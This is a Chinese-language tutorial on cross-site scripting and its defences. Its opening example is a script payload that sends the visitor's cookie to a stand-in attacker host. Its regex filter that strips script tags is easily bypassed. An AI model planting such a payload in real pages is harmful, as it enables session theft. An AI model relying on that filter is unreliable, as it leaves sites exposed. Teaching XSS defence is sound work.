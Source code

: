 # XSS 防護：保護你的網站不被劫持

在網路世界中，保護你的網站免於受到黑客的攻擊是一項重要的任務。其中，最常見的攻擊方式之一就是跨網站腳本攻擊，簡稱XSS。在這篇文章中，我將為你介紹什麼是XSS攻擊，以及如何防禦它。

## 了解 XSS 攻擊

XSS攻擊其實就是在網頁中嵌入惡意的JavaScript程式碼，當其他使用者瀏覽該網頁時，這段惡意的程式碼就會被執行，從而達到攻擊的目的。這種攻擊方式的威力非常大，可以用來竊取使用者的密碼、偷取使用者的個人資料，甚至可以控制使用者的瀏覽器。

範例：
```html
<script>document.location='http://www.evil.com?cookie='+document.cookie</script>
```
上面的程式碼會把使用者的cookie資料發送到惡意網站，讓黑客可以利用這些資料進行攻擊。

## 如何防禦 XSS 攻擊

要防禦XSS攻擊，主要有以下幾種方式：

1. 適當地過濾輸入：當使用者輸入文字時，應該將其視為純文字，而不是程式碼。這可以避免黑客嵌入惡意的程式碼。

範例：
```javascript
let userInput = "<script>evil script</script>";
let safeInput = userInput.replace(/<script.*?>.*?<\/script>/gi, "");
```
2. 適當地處理輸出：在將文字顯示到瀏覽器時，應該使用適當的方式來處理特殊字符，例如，可以使用HTML實體來代替特殊字符。

範例：
```javascript
let userInput = "<img src='http://evil.com/evil.jpg'>";
let safeOutput = userInput.replace(/</g, "&lt;").replace(/>/g, "&gt;");
```
3. 使用內容安全政策（CSP）：CSP是一種瀏覽器的安全特性，可以限制網頁中可以執行的程式碼。例如，你可以設定CSP只允許執行來自你自己網站的程式碼，而不允許執行來自其他網站的程式碼。

範例：
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'">
```
以上，就是關於XSS攻擊以及如何防禦的一些基本知識。希望透過這篇文章，你能更加了解網路安全，並且可以適當地保護你的網站免受攻擊。在網路世界中，保護好自己，也就是保護好其他人。